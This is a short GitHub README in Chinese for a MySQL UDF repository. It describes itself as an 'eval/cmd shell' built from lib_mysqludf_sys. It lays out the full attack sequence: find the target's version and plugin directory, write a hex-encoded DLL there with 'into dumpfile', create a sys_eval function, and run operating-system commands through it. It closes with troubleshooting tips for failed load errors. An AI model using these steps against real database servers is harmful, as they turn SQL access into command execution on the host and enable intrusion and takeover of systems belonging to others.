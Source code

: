 # mysql_udf #

mysql udf eval/cmd shell

**只适用于MySQL > 5.1**

源码来自https://github.com/mysqludf/lib_mysqludf_sys

dll文件编译自vs2012

    一般过程
    
    >show variables like '%version%';       //查目标Mysql版本
    >show variables like '%plugin%';        //查目标plugin目录
    >select unhex(hex_udf) into dumpfile path/to/plugin/udf.dll;       //通过各种方法导入udf
    >create function sys_eval returns string soname 'udf.dll';         //创建函数
    >select sys_eval(cmd);                  //执行命令

**可能遇到的问题**

 * errno 2
        
        1. udf不存在(有可能被删)
       
 * errno 126
       
        1. 检查编译UDF用到的MySQL版本与目标MySQL版本是否对应
        2. 目标机器是否缺少各种包，如Microsoft Visual C++ 20xx redistributable

 * errno 193

        1. udf文件存在，但文件格式错误 (文件损坏)
		2. x86/x64的udf搞混


